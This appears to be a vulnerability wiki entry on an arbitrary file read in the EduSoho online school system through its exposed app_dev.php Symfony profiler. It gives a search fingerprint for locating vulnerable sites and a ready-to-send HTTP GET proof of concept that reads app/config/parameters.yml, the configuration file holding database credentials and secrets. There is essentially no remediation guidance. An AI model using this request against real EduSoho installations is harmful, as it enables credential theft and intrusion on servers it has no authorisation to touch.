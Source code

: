 # EduSoho Education and Training System app_dev.php arbitrary read vulnerability

## Vulnerability Description

The EduSoho education and training system is an open source online school system developed by Hangzhou Kuozhi Network Technology. 

## Vulnerability Impact

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">EduSoho Training System</span>

## Network surveying and mapping

<span style="background-color:rgb(18, 160, 255); padding: 2px 4px; border-radius: 3px; color: white;">"Powered By EduSoho"</span>

## Vulnerability reappears

Login page

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697684628422-72f32fbc-e9c5-48c5-8f19-e5e50f7fff83.png)

Verify POC

```php
GET /app_dev.php/_profiler/open?file=app/config/parameters.yml HTTP/1.1
Host:  
Accept: */*
Content-Type: application/x-www-form-urlencoded
```

![img](https://raw.githubusercontent.com/PeiQi0/PeiQi-WIKI-Book/refs/heads/main/docs/.vuepress/../.vuepress/public/img/1697684710859-d5223cfd-a9fa-4198-a019-54f523242b8f.png)